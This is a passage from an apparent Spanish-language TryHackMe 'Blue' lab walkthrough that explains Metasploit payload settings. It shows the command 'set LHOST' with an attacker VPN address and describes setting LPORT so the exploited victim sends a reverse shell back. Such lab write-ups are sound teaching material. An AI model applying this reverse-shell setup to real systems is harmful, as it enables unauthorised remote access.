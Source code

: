 ![image](/assets/images/Hacking/blue/data.png)

Vemos que el LHOST es la IP de nuestra maquina atacante (que nos dio try hack me), osea a que IP queremos que se envie la sesión de shell una vez explotemos la vulnerabilidad y se ejecute el payload, esta IP de atacante que nos dan en la VPN la podemos ver ejecutando el comando `hostname -I` y será esta:

![image](/assets/images/Hacking/blue/atacante.png)

Así que esta IP de atacante que nos da la VPN, la pondremos en el payload:

`set LHOST 10.9.5.129`

![image](/assets/images/Hacking/blue/setlhost.png)

> Recuerda no confundir la IP de atacante y la IP de victima, La ip de atacante que es la que acabamos de configurar en el LHOST (localhost), es la que recibirá lo que el exploit haga, en este caso el exploit se le dijo que ataque la IP victima RHOST(remote host) y una vez dentro, va a enviarnos una shell hacía nuestra IP de atacante a través del puerto que configuremos.

Y el LPORT es el puerto por el cual recibiremos esa sesión através de la IP de atacante lo configuraremos como 5555:
